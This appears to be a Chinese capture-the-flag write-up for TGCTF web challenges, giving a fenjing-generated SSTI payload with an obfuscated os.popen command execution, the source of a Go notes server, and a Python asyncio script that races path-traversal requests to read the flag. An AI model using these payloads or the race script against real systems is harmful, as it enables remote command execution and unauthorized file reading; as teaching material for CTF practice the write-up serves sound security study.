



session没开，2没过滤

直接干

## 直面天命复仇

简单的ssti注入，使用fenjing可以得到，记得删black\_list中的{}

```
from fenjing import exec_cmd_payload
import logging
black_list=['lipsum','|','%','map','chr', 'value', 'get', "url", 'pop','include','popen','os','import','eval','_','system','read','base','globals','_.','set','application','getitem','request', '+', 'init', 'arg', 'config', 'app', 'self']
def waf(name):
    for x in black_list:
        if x in name.lower():
            return False
    return True

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "ls /")
    # config_payload = config_payload(waf)

    print(shell_payload)
```



```
name=天命g['p''op']["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]('o''s')['p''open']('cat t*')['r''ead']()难违
```

在go中=和:=是两个不同的概念

详细请看<https://stackoverflow.com/questions/17891226/difference-between-and-operators-in-go/17891297#17891297>

代码源代码

```
package main

import (
    "fmt"
    "io"
    "log"
    "net/http"
    "os"
    "path/filepath"
    "strings"
    "text/template"
    "time"
)

type Note struct {
    Name       string
    ModTime    string
    Size       int64
    IsMarkdown bool
}

var templates = template.Must(template.ParseGlob("templates/*"))

type PageData struct {
    Notes []Note
    Error string
}

func blackJack(path string) error {

    if strings.Contains(path, "..") || strings.Contains(path, "/") || strings.Contains(path, "flag") {
        return fmt.Errorf("非法路径")
    }

    return nil
}

func renderTemplate(w http.ResponseWriter, tmpl string, data interface{}) {
    safe := templates.ExecuteTemplate(w, tmpl, data)
    if safe != nil {
        http.Error(w, safe.Error(), http.StatusInternalServerError)
    }
}

func renderError(w http.ResponseWriter, message string, code int) {
    w.WriteHeader(code)
    templates.ExecuteTemplate(w, "error.html", map[string]interface{}{
        "Code":    code,
        "Message": message,
    })
}

func main() {
    os.Mkdir("notes", 0755)

    safe := blackJack("/flag") //错误示范，return fmt.Errorf("非法路径")

    http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        files, safe := os.ReadDir("notes")
        if safe != nil {
            renderError(w, "无法读取目录", http.StatusInternalServerError)
            return
        }

        var notes []Note
        for _, f := range files {
            if f.IsDir() {
                continue
            }

            info, _ := f.Info()
            notes = append(notes, Note{
                Name:       f.Name(),
                ModTime:    info.ModTime().Format("2006-01-02 15:04"),
                Size:       info.Size(),
                IsMarkdown: strings.HasSuffix(f.Name(), ".md"),
            })
        }

        renderTemplate(w, "index.html", PageData{Notes: notes})
    })

    http.HandleFunc("/read", func(w http.ResponseWriter, r *http.Request) {
        name := r.URL.Query().Get("name")

        if safe = blackJack(name); safe != nil {
            renderError(w, safe.Error(), http.StatusBadRequest)
            return
        }

        file, safe := os.Open(filepath.Join("notes", name))
        if safe != nil {
            renderError(w, "文件不存在", http.StatusNotFound)
            return
        }

        data, safe := io.ReadAll(io.LimitReader(file, 10240))
        if safe != nil {
            renderError(w, "读取失败", http.StatusInternalServerError)
            return
        }

        if strings.HasSuffix(name, ".md") {
            w.Header().Set("Content-Type", "text/html")
            fmt.Fprintf(w, `<html><head><link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/github-markdown-css/5.1.0/github-markdown.min.css"></head><body class="markdown-body">%s</body></html>`, data)
        } else {
            w.Header().Set("Content-Type", "text/plain")
            w.Write(data)
        }
    })

    http.HandleFunc("/write", func(w http.ResponseWriter, r *http.Request) {
        if r.Method != "POST" {
            renderError(w, "方法不允许", http.StatusMethodNotAllowed)
            return
        }

        name := r.FormValue("name")
        content := r.FormValue("content")

        if safe = blackJack(name); safe != nil {
            renderError(w, safe.Error(), http.StatusBadRequest)
            return
        }

        if r.FormValue("format") == "markdown" && !strings.HasSuffix(name, ".md") {
            name += ".md"
        } else {
            name += ".txt"
        }

        if len(content) > 10240 {
            content = content[:10240]
        }

        safe := os.WriteFile(filepath.Join("notes", name), []byte(content), 0600)
        if safe != nil {
            renderError(w, "保存失败", http.StatusInternalServerError)
            return
        }

        http.Redirect(w, r, "/", http.StatusSeeOther)
    })

    http.HandleFunc("/delete", func(w http.ResponseWriter, r *http.Request) {
        name := r.URL.Query().Get("name")
        if safe = blackJack(name); safe != nil {
            renderError(w, safe.Error(), http.StatusBadRequest)
            return
        }

        safe := os.Remove(filepath.Join("notes", name))
        if safe != nil {
            renderError(w, "删除失败", http.StatusInternalServerError)
            return
        }

        http.Redirect(w, r, "/", http.StatusSeeOther)
    })

    // 静态文件服务
    http.Handle("/static/", http.StripPrefix("/static/", http.FileServer(http.Dir("static"))))

    srv := &http.Server{
        Addr:         ":9046",
        ReadTimeout:  10 * time.Second,
        WriteTimeout: 15 * time.Second,
    }
    log.Fatal(srv.ListenAndServe())
}
```

我们可以看到



safe是定义在main函数中的，所以在进行read的时候，存在条件竞争，可以拥有一个窗口期来让我们进行绕过



```
#!/usr/bin/env python3
import aiohttp
import asyncio
import time

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.READ_FILE_ENDPOINT = f'{self.baseUrl}/read'
        self.VALID_CHECK_PARAMETER = '?name=anything'
        self.INVALID_CHECK_PARAMETER = '?name=../../flag'
        self.RACE_CONDITION_JOBS = 100

    async def setSessionCookie(self, session):
        await session.get(self.baseUrl)

    async def raceValidationCheck(self, session, parameter):
        url = f'{self.READ_FILE_ENDPOINT}{parameter}'
        async with session.get(url) as response:
            return await response.text()

    async def raceCondition(self, session):
        tasks = list()
        for _ in range(self.RACE_CONDITION_JOBS):
            tasks.append(self.raceValidationCheck(session, self.VALID_CHECK_PARAMETER))
            tasks.append(self.raceValidationCheck(session, self.INVALID_CHECK_PARAMETER))
        return await asyncio.gather(*tasks)

    async def solve(self):
        async with aiohttp.ClientSession() as session:
            await self.setSessionCookie(session)
            await asyncio.sleep(1) # wait for the reverse proxy creation

            attempts = 1
            finishedRaceConditionJobs = 0
            while True:
                print(f'[*] Attempts #{attempts} - Finished race condition jobs: {finishedRaceConditionJobs}', end='\r')

                results = await self.raceCondition(session)
                attempts += 1
                finishedRaceConditionJobs += self.RACE_CONDITION_JOBS
                for result in results:
                    if 'TGCTF' not in result:
                        continue
                    print(f'
[+] We won the race window! Flag: {result.strip()}')
                    exit(0)

if __name__ == '__main__':
    baseUrl = 'http://node1.tgctf.woooo.tech:31478' # for local testing
    # baseUrl = 'http://49.13.169.154:8088'
    solver = Solver(baseUrl)

    asyncio.run(solver.solve())
```


